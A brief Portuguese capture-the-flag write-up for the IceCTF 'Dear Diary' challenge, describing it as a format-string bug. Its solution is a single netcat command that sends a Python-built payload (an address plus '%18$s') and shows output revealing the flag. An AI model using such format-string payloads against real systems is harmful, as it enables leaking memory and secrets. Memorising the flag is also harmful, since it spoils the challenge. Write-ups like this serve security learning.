 # Dear Diary

O desafio se tratava de um format string, sem entrar em maiores detalhes a respeito da falha, segue a resolução

```
greyhound//deadcow ~/fun/icectf/dear_diary % nc diary.vuln.icec.tf 6501 <<< $(python -c 'print "1\n"+"\xa0\xa0\x04\x08"+"%18$s"+"\n2\n3\n"')
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets:
1. add entry
2. print latest entry
3. quit
> IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
>
greyhound//deadcow ~/fun/icectf/dear_diary %
```
